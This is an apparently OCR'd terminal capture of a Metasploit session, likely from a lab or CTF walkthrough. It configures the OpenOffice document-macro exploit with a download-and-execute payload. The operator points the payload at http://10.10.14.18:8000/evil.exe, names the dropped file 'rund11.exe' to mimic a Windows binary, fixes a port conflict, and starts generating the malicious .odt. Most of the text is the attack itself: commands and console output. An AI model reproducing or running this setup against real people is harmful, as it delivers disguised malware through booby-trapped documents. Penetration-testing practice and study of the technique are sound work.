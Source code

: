 Module options (exploit/multi/misc/openoffice_document_macro):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BODY                       no        The message for the document body
   FILENAME  msf.odt          yes       The OpoenOffice Text document name
   SRVHOST   0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (windows/download_exec):

   Name      Current Setting                 Required  Description
   ----      ---------------                 --------  -----------
   EXE       rund11.exe                      yes       Filename to save & run executable on target system
   EXITFUNC  thread                          yes       Exit technique (Accepted: '', seh, thread, process, none)
   URL       https://localhost:443/evil.exe  yes       The pre-encoded URL to the executable


Exploit target:

   Id  Name
   --  ----
   0   Apache OpenOffice on Windows (PSH)


msf5 exploit(multi/misc/openoffice_document_macro) > set URL http://10.10.14.18:8000/evil.exe
URL => http://10.10.14.18:8000/evil.exe
msf5 exploit(multi/misc/openoffice_document_macro) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).
msf5 exploit(multi/misc/openoffice_document_macro) > set SRVPORT 8888
SRVPORT => 8888
msf5 exploit(multi/misc/openoffice_document_macro) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Using URL: http://0.0.0.0:8888/AwoAkhJv2
[*] Local IP: http://10.0.2.15:8888/AwoAkhJv2
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging file: meta.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
msf5 exploit(multi/misc/openoffice_document_macro) > [*] Packaging file: META-INF/manifest.xml
[*] Packaging file: styles.xml
[*] Packaging file: mimetype
[*] Packaging file: settings.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
